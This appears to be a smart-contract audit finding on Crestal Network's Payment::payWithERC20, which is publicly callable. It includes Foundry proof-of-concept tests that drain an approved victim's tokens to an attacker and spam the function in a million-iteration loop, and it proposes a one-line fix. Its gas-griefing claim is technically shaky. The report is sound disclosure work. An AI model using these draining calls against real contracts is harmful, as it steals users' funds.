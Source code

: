 Sour Menthol Whale

High

# Payment::payWithERC20 can be used to carry griefing attacks or steal funds

### Summary

In the [Payment](https://github.com/sherlock-audit/2025-03-crestal-network/blob/main/crestal-omni-contracts/src/Payment.sol) Contract there is a function [`payWithERC20`](https://github.com/sherlock-audit/2025-03-crestal-network/blob/main/crestal-omni-contracts/src/Payment.sol#L25-L32) which is of the visibility and accessibility public. This function can be used to transfer amount from specified `fromAddress` (to) ->   `toAddress` based on the approval set.


So basically there are certain instances when this could be exploited : 
- If the victim is phished to approve tokens to `Payment` contract
- If victim has already approved tokens, and forgot to revoke it

Then it could be exploited to transfer from victim to attacker address, as there is no validation in place to check if `fromAddress` is `msg.sender`.

Also **gas griefing** could be done by front-running whenever a user is about to make calls to functions which uses `Payment::payWithERC20` in the function in `BlueprintCore` : `createAgentWithToken`, `createAgentWithTokenWithSig`, `createAgentWithNFT`, `createAgentWithWhitelistUsers`, `createAgentWithWhitelistUsersWithSig`, `createAgentWithSigWithNFT` , `userTopUp`, `updateWorkerDeploymentConfig` etc since they make underlying calls to `Payment::payWithERC20`. 
Gas griefing could be done by simply make repeatedly calls to `payWithERC20` with tiny amount like 1. So attacker calls this function thousand of times and hence the above functions would be charged too high, or might revert due to it.

### Root Cause

Root cause for gas-griefing attack and the scenario based exploitation is the same :
Having the accessibility and modifier of the `Payment::payWithERC20` set to `public` instead of `internal`

### Internal Pre-conditions

Fund drainage/stealing : 
- If the victim is phished to approve tokens to `Payment` contract
- If victim has already approved tokens, and forgot to revoke it

### External Pre-conditions

Gas Griefing : 
- Attacker calls the `Payment::payWithERC20` thousands of times to inflate the gas price by sending small `amount` to their own wallets

### Attack Path

1. Fund Stealing/drainage : Attacker calls `payWithERC20` with the `fromAddress` as victim and `toAddress` as his own.
2. Calling the `Payment::payWithERC20` thousands of times to inflate the gas price by sending small `amount` to their own wallets so that the core functions involving the usage of the above function is griefed from using multiple function and break the protocol.

### Impact

- Normal Users could not use core functions like :   `createAgentWithToken`, `createAgentWithTokenWithSig`, `createAgentWithNFT`, `createAgentWithWhitelistUsers`, `createAgentWithWhitelistUsersWithSig`, `createAgentWithSigWithNFT` , `userTopUp`, `updateWorkerDeploymentConfig` because the function `Payment::payWithERC20` is used in those function which is gas griefed.
 
- Victim users could loose their funds if they are tricked or made mistake to approve their funds access to Payment.


### PoC

```solidity  
  // Stealing funds/drainage
  function test_PaymentFunctionIsPublic() public {

        // What if victim has approved it's balance to payment contract or has been phished to do so:
        address approvedVictim = makeAddr("Alice-Victim");
        address attacker = makeAddr("Attacker");
        deal(address(mockToken),approvedVictim, 1000000000000);
        Payment payment = new Payment();
        
        vm.prank(approvedVictim);
        mockToken.approve(address(payment),110000000);
        vm.prank(attacker);
        payment.payWithERC20(address(mockToken),10000000, approvedVictim,attacker);
        console.log("Attacker's balance : ", mockToken.balanceOf(attacker));

    }
```


Gas griefing attack, : 
```solidity
    function test_gasGriefAttack() public {
        Payment payment = new Payment();

        address attacker = makeAddr("Attacker");
        address attacker2 = makeAddr("Attacker2");
        deal(address(mockToken),attacker, 100000000); 
        
        vm.startPrank(attacker);
        mockToken.approve(address(payment), 10000000);
        // Make the loop small, if you want to increase the gas price and not attack and revert the users
        for (uint i = 0; i < 1000000; i++) {
            payment.payWithERC20(address(mockToken),1,attacker,attacker2);
        }
        vm.stopPrank();
        uint256 topUpAmount = 100 * 10 ** 18;

        // Add the payment address
        blueprint.addPaymentAddress(address(mockToken));

        // Mint tokens to the test account
        mockToken.mint(address(this), topUpAmount);

        // Approve the blueprint contract to spend tokens
        mockToken.approve(address(blueprint), topUpAmount);

        // Expect the UserTopUp event
        vm.expectEmit(true, true, true, true);
        emit BlueprintCore.UserTopUp(
            address(this), blueprint.feeCollectionWalletAddress(), address(mockToken), topUpAmount
        );

        // Call the userTopUp function
        blueprint.userTopUp(address(mockToken), topUpAmount);

    }



```

### Mitigation

Make the function visibility `internal` : 

```diff
-  function payWithERC20(address erc20TokenAddress, uint256 amount, address fromAddress, address toAddress) public {
+  function payWithERC20(address erc20TokenAddress, uint256 amount, address fromAddress, address toAddress) internal {  
```
